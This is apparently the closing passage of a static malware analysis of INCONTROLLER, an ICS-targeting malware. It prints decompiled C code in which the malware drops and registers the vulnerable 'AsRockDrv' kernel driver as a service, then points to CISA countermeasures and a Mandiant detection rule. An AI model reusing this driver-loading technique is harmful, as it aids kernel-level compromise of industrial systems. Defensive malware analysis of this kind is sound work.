 ```c
            // 0x140001166
            function_140018290(&g77, 0x8708, 1, file);
            fclose((struct _IO_FILE *)file);
            hSCManager = OpenSCManagerW(NULL, NULL, 2);
            v8 = 0;
            v9 = 2;
            v13 = file;
            v10 = (int64_t)"cant drop and load exploatable driver ! \n";
            if (hSCManager == NULL) {
                goto lab_0x14000151a;
            } else {
                int64_t * v16 = CreateServiceA(hSCManager, "AsRockDrv", "AsRockDrv", 0xf01ff, 1, 2, 1, "C:\\AsRockDrv.sys", NULL, NULL, NULL, NULL, NULL); // 0x1400011ed
                hService = v16;
                v12 = (int64_t)"AsRockDrv";
                if (v16 != NULL) {
                    goto lab_0x14000122e;
                } else {
                    // 0x1400011fb
                    hService = OpenServiceA(hSCManager, "AsRockDrv", 0xf01ff);
                    hSCObject = hSCManager;
                    v14 = (int64_t)"AsRockDrv";
                    v11 = 0xf01ff;
                    v12 = 0xf01ff;
                    if (hService != NULL) {
                        goto lab_0x14000122e;
                    } else {
                        goto lab_0x14000121c;
                    }
                }
            }
        }
    }
  
 ```


Above is a snippet from the C file. We can read and understand the code where the malware tries to drop the AsRock exploit. 

### Final Notes

This was my quick static analysis for INCONTROLLER malware. The malware is modular in nature and targets OT environment specifically. It uses ICS protocols such as Modbus, OPC UA servers to implant the packets on the equipment which can persist on them for a long time and can cause major outage in operations.  The APT group has made it modular so that it could have more modules in future for other protocols/OEM's  It is best of interest for anyone using this equipments to apply the countermeasures suggested by CISA in their [report.](https://www.cisa.gov/uscert/sites/default/files/publications/Joint_Cybersecurity%20Advisory_APT%20Cyber%20Tools%20Targeting%20ICS_SCADA%20Devices_4-14-22_UPDATE.pdf)  Also, for detecting activity from this malware the Yara Rule shared in [Mandiant's blog](https://www.mandiant.com/resources/incontroller-state-sponsored-ics-tool) can be useful. 
